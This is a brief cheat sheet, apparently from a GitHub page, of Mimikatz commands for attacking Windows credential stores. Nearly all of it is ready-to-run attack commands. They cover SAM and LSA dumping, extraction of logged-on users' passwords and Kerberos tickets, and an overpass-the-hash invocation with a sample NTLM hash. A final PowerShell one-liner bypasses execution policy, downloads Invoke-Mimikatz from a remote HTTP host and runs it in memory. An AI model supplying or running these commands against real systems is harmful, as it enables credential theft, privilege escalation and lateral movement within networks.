 ### enables the _SeDebugPrivilge_ access right required to tamper with another process

```powershell
privilege::debug
```

### elevate the security token from high integrity (administrator) to SYSTEM integrity
```powershell
token::elevate
```

### dump the contents of the SAM database
```powershell
lsadump::sam
```

### Dump logged-on users password

```powershell
sekurlsa::logonpasswords
```

### Dump Tickets

```powershell
sekurlsa::tickets
```

### List & Export tickets
```powershell
kerberos::list
kerberos::list /export
sekurlsa::tickets
sekurlsa::tickets /export
```

### OverPass The Hash 
Get a ticket using NTLM hash

```powershell
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```


### LOAD IN MEM

```powershell
powershell.exe -exec Bypass -C 'IEX (IWR http://10.2.2.218:8080/Invoke-Mimikatz.ps1 -UsebasicParsing);Invoke-Mimikatz -Command \" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::tickets" "exit" \" '
```

